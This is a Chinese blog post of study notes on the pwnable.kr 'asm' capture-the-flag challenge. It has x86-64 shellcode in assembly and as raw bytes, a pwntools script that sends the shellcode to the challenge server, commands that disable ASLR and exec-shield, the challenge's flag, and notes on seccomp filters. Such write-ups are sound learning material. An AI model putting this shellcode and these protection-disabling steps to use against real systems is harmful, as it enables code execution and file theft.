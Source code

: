 ```yaml
---
layout: post
date:   2017-07-11 15:14:54
categories: 学习笔记
tags:   linux shellcode pwnable.kr
---
```

# 壹、 linux下基本shellcode的编写 *(pwnable，asm)*

刷到了pwnable.kr中的asm题，开始系统学习shellcode。问题代码专注写利用即可，抽象如下：

	char code[] = "bytecode will go here!";
	int main(int argc, char **argv)
	{
		int (*func)();
		func = (int (*)()) code;
		(int)(*func)();
	}

关闭保护的方法：<br>
echo 0 > /proc/sys/kernel/exec-shield   #turn it off<br>
echo 0 > /proc/sys/kernel/randomize_va_space #turn it off<br>

这里我打算用两个方法写shellcode.
## 1 基础的“写汇编代码”→“汇编”→“提取字节码” 方法。

### Q1: 汇编与生成方法
- 目前我使用如下命令来生成和提取：
```
	$ nasm -f elf64 exit.asm
	$ ld -o exiter exit.o
	$ objdump -d exiter
```
### Q1: 字符串传入?
这里有一个困扰了我的问题，就是字符串怎么传入的问题，这里方法很巧妙，就是把字符串放在末尾，前面使用call的方式，这样字符串的地址就出现在了栈上，就可以pop到想要的寄存器中去了。

### Q2: syscall 和 int 80 不等价？
根据[文档](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)，系统调用应该就是int 0x80的形式，但是我在虚拟机中调试发现int 80 并不能实现syscall的功能，字节码也不一样。
果然在[stackoverflow](https://stackoverflow.com/questions/12806584/what-is-better-int-0x80-or-syscall)上有了回答：

- `syscall` is default way of entering kernel mode on x86-64. This instruction is not available in 32 bit modes of operation on Intel processors.
- `sysenter` is an instruction most frequently used to invoke system calls in 32 bit modes of operation. It is similar to syscall, a bit more difficult to use though, but that is kernel's concern.
- `int 0x80` is a legacy way to invoke a system call and should be avoided.

所以，64位下还是用syscall为好，老旧的kernel再使用int 0x80。

### 题解：
流程是先open，然后read到栈上，再write到标准输出

- shellcode.asm:<br>

```
global _start:
_start:
	jmp short endder;
starter:
	mov rax, 2; sys_open
	pop rdi;
	mov rsi, 0;
	syscall;

	mov rsi, rsp;
	mov rdi, rax;
	xor rax,rax; sys_read
	mov rdx, 100;
	syscall;

	mov rax, 1; sys_write
	mov rdi, 1;
	syscall;

	mov rax, 60;
	syscall;

endder:
	call starter;
	db 'this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong'
```

- solve.py:

```
import pwn

payload = '\xeb0\xb8\x02\x00\x00\x00_\xbe\x00\x00\x00\x00\x0f\x05H\x89\xe6H\x89\xc7H1\xc0\xbad\x00\x00\x00\x0f\x05\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\x0f\x05\xb8<\x00\x00\x00\x0f\x05\xe8\xcb\xff\xff\xffthis_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong\x00'
con = pwn.ssh(user='asm', password = 'guest', host = 'pwnable.kr', port = 2222)
tunnel = con.remote('0', 9026)
tunnel.send(payload)
tunnel.interactive()
```
flag: Mak1ng_shelLcodE_i5_veRy_eaSy, [参考链接](https://etenal.me/archives/972#C22)

## 2 使用pwntools工具（pwn.shelldrift）

首先要设置目标环境，学习到两个姿势：

- *方法一*、使用pwn.context(arch="amd64", os = 'linux')设定好目标环境，还可以类似pwn.context.log_level='debug'这样设置目标环境<br>
  然后再使用pwn.shellcraft.*中的各种例如syscall，open，read等方法。
- *方法二*、直接使用pwnlib.shellcraft.amd64.linux.*中的各种例如syscall，open，read等方法
- 以上方法都是生成asm源码，还要用pwn.asm生成对应字节码。<br>
<br>_pwnlib和from pwn import *有点微妙的关系目前还没弄懂_

shellcraft.*中有各种基本的方法，如mov等的操作，写起来和原始汇编差别不大，注意寄存器要写成带引号的字符串形式。同时也有`syscall(syscall=None, arg0=None, arg1=None, arg2=None, arg3=None, arg4=None, arg5=None)`等集成比较好的方法。我们这里用的open、read、write也有集成了。可以参考[pwntools官方文档](https://docs.pwntools.com/en/stable/shellcraft/amd64.html#module-pwnlib.shellcraft.amd64)。<br>

[这里](http://blog.csdn.net/qq_33528164/article/details/71023772)给的题解很清晰明了，连如何放置字符串都不需要考虑（pushstr只有方法一中有）。但是我好奇字符串位置，就把shellcode拿出来看了一下：<br>
<img src="{{ site.baseurl }}/images/{5$]7M213M7TMIQAG}H`9@N.png"><br>
看来这篇博客错了，这里生成的是原始的.asm源码文件，[这里](http://veritas501.space/2017/04/30/pwnable.kr_writeup/)的用法是正确的，还要用pwn.asm生成对应的字节码。不过这里的push字符串的方法可以参考，也是一种方法，拆开成碎片逐个push到栈上。经过测试，我下面这个payload也能够生效的。
```
from pwn import *
context(os='linux', arch='amd64')
asmcode = ''
asmcode += shellcraft.pushstr("this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong")
asmcode += shellcraft.open('rsp',0,0)
asmcode += shellcraft.read('rax','rsp',100)
asmcode += shellcraft.write(1,'rsp',100)
shellcode = asm(asmcode)
```



---
# 贰、 Linux沙箱: seccomp sandbox  *(pwnable, asm)*

Seccomp(secure computing)是Linux kernel （自从2.6.23版本之后）所支持的一种简洁的sandboxing机制。它能使一个进程进入到一种“安全”运行模式，该模式下的进程只能调用4种系统调用（system calls），即read(), write(), exit()和sigreturn()，否则进程便会被终止。

- seccomp_rule_add(scmp_filter_ctx ctx, uint32_t action, int syscall, unsigned int arg_cnt, ...);
- seccomp_rule_add_array(scmp_filter_ctx ctx,
                                  uint32_t action, int syscall,
                                  unsigned int arg_cnt,
- seccomp_rule_add_exact(scmp_filter_ctx ctx, uint32_t action,
                                  int syscall, unsigned int arg_cnt, ...);
- seccomp_rule_add_exact_array(scmp_filter_ctx ctx,
                                        uint32_t action, int syscall,
                                        unsigned int arg_cnt,
                                        const struct scmp_arg_cmp *arg_array);

以上等方法会添加新的过滤器到seccomp过滤器中。这个方法会因为处理器架构的不同而在细节上有一些差异。新添加的filter rule需要通过[seccomp_load(3)](http://man7.org/linux/man-pages/man3/seccomp_load.3.html)来生效。[参见linux man手册](http://man7.org/linux/man-pages/man3/seccomp_rule_add.3.html)

如下面是pwnable.kr中asm的题目代码，可以作为一个范例

	#include <seccomp.h>
	scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
	...
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	...
	seccomp_load(ctx); //enable
	seccomp_release(ctx);

表明允许open这一系统调用的进行。

注，gcc编译时应该使用 -lseccomp参数

---